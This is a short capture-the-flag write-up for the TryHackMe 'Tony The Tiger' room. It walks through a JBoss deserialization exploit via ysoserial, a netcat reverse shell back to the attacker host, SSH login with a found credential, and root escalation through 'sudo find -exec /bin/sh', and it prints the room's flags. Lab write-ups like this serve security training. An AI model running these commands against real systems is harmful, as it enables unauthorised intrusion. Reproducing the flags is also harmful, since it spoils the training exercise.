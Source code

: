 # Matheus Jesus 16-04-2020

## Try Hack Me - [Tony The Tiger](https://tryhackme.com/room/tonythetiger)

### IP 10.10.210.254

#### NMap results can be found on the file

80 - blog
8080 Jboss
22 SSH

After downloading the exploit, run command to start a reverse shell

```sh
python exploit.py --ysoserial-path ysoserial.jar --proto http 10.10.210.254:8080 "nc 10.9.5.234 -e /bin/sh 8888"
```

open shell with

```sh
nc -lvnp 8888; python -c 'import pty; pty.spawn("/bin/bash")' #Spawns a TTY terminal
```

There is a note under /home/jboss/note

it says jboss:likeaboss

```sh
ssh jboss@10.10.210.254
likeaboss
```

hidden file on /home/jboss -> .jboss revealed the flag

THM{50c10ad46b5793704601ecdad865eb06}

scp linpeas.sh over to the host

the user jboss is able to run /usr/bin/find as root

```sh
sudo find /etc/password -exec /bin/sh \;
```

ROOT  [SUID](https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/)

/root/root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==

It seems to be encrypted but hashid did not recognize it.

Found a possible CISCO SHA256 encryption
